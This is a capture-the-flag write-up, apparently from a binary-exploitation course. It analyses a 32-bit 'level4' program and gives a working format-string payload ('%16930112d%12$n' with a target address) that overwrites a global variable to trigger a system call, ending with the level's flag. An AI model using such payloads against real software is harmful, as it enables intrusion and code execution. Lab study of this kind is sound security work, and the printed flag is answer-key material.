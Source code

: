 # Level4

## What we have

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

## Testing the program

```bash
./level4 
hello
hello
```

Once more we have an executable which displays the string passed. 

## Learning more

```bash
disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.
``` 

The executable calls a function called 'n'. 

```bash
disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt> --> CALL TO FGETS
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p> --> CALL TO ANOTHER FUNCTION CALLED P
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt> --> CALL TO SYSTEM
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

3 things here :
```plaintext
    • a "fgets" call
    • a call to a "p" function
    • a condition for a call to "system"
```

The program compares the value of a global variable m at 0x8049810 to 0x1025544 (16930116 in dec).

```bash
disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

Once again we have "printf" that calls the argument, without formater --> Format string again

## Getting access to the shell

Like in level3 our goal is to manipulate the printf() function into changing the value of the variable at the address 0x8049810 so that it equals 16930116. 

1. Print the memory until we reach the address of the variable we wish to modify

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' > /tmp/coucou
$ cat /tmp/coucou - | ./level4
aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520
```

The buffer aaaa is at the 12th position (61616161). 

2. Change the value

Our previous method won't work here because the value 16930116 in the comparaison is too long.
However we can use the modifier %d, and dynamically specify the field width (as so : %16930116d).
This will be the only difference between this level and the older one.

3. Making the payload 

We have to reach a total of : 16930116, we have the adrress of m which takes up 4 bytes so our final padding is 16930112. 
Giving us the following payload : 

```bash 
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/coucou
$ cat /tmp/coucou | ./level4
[...]
     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```